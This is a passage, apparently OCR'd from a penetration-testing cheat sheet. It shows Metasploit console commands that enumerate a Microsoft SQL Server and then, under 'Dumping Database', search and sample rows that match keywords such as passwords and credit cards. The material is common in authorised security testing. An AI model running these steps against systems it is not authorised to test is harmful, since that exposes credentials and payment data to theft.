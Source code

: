 ```
   USERNAME             sa               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)

msf auxiliary(admin/mssql/mssql_enum) > set rhosts <IP>

msf auxiliary(admin/mssql/mssql_enum) > set username <username>

msf auxiliary(admin/mssql/mssql_enum) > set password <password>

msf auxiliary(admin/mssql/mssql_enum) > run
```

#### 3.1.3 - Dumping Database

```
msf > use auxiliary/admin/mssql/mssql_findandsampledata

msf auxiliary(admin/mssql/mssql_findandsampledata) > options

Module options (auxiliary/admin/mssql/mssql_findandsampledata):

   Name                 Current Setting    Required  Description
   ----                 ---------------    --------  -----------
   KEYWORDS             passw|credit|card  yes       Keywords to search for
   PASSWORD                                no        The password for the specified username
   RHOSTS                                  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                1433               yes       The target port (TCP)
   SAMPLE_SIZE          1                  yes       Number of rows to sample
   TDSENCRYPTION        false              yes       Use TLS/SSL for TDS data "Force Encryption"
   THREADS              1                  yes       The number of concurrent threads (max one per host)
   USERNAME             sa                 no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false              yes       Use windows authentification (requires DOMAIN option set)

msf auxiliary(admin/mssql/mssql_findandsampledata) > set rhosts <IP>

msf auxiliary(admin/mssql/mssql_findandsampledata) > set threads 4

msf auxiliary(admin/mssql/mssql_findandsampledata) > set username <username>

msf auxiliary(admin/mssql/mssql_findandsampledata) > set password <password>

msf auxiliary(admin/mssql/mssql_findandsampledata) > set sample_size 8

msf auxiliary(admin/mssql/mssql_findandsampledata) > set keywords <keyword1>|<keyword2>|<keyword3>

msf auxiliary(admin/mssql/mssql_findandsampledata) > exploit
```
